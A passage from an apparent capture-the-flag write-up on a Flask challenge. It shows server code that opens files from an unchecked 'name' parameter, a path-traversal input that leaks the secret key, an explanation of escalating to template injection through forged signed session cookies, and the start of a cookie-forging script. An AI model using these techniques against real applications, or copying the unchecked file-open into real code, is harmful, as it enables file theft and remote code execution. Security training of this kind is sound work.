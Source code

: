 ```python
def index():
    return render_template("main.html")

@app.route('/article', methods=['GET'])
def article():
    error = 0
    if 'name' in request.args:
        page = request.args.get('name')
    else:
        page = 'article'
    if page.find('flag')>=0:
        page = 'notallowed.txt'
    try:
        template = open('/home/golem/articles/{}'.format(page)).read()
    except Exception as e:
        template = e

    return render_template('article.html', template=template)

if __name__ == "__main__":
    app.run(host='0.0.0.0', debug=False)
```

So, this is a python flask framework based web app. And obviously eyes glazed over flag.py, but we can't read it as there is a condition in server.py which is not allowing us to read. Next candidate is key.py and using **name=../../../opt/serverPython/golem/key.py**

```python
key = "7h15_5h0uld_b3_r34lly_53cur3d"
```

## From LFI to RCE (Remote command execution)!

After a lot of struggle and search on internet I found an interesting attack vector named **SSTI(Server side template injection)**.

It's time for ExPl0itAti0N!

If you closely observe server.py (line 24), it uses a template engine(Jinja2 to be specific) to render html content, and in one of the template it is printing what ever is there in session (cookie in browser terms).

Now back to our SSTI, when user input some string like **\{\{ 2+3 \}\}**, jinja template engine will evaluate it and output the result(which is **5**). So now all we need to do is craft a session with some code to read flag.py.

Here comes the interesting part, this app uses flask Session class which gives us HMAC signed cookies using a secret key (server.py line 11), so that when someone sends edited cookie back to server, server will try and verify the signature. So one can't simply edit flask sessions. As we have secret_key with us (as we have already read key.py), we can create and sign sessions manually and send it to server for evaluation. So I quickly wrote a small script to generate crafted sessions and send it to server.

```python
import requests
from itsdangerous import base64_decode
from flask.sessions import SecureCookieSessionInterface
import HTMLParser

obtained_secret = "7h15_5h0uld_b3_r34lly_53cur3d"

class FlaskMockApp(object):
    def __init__(self, secret_key):
        self.secret_key = secret_key

def session_cookie_encoder(secret_key, session_cookie_structure):
```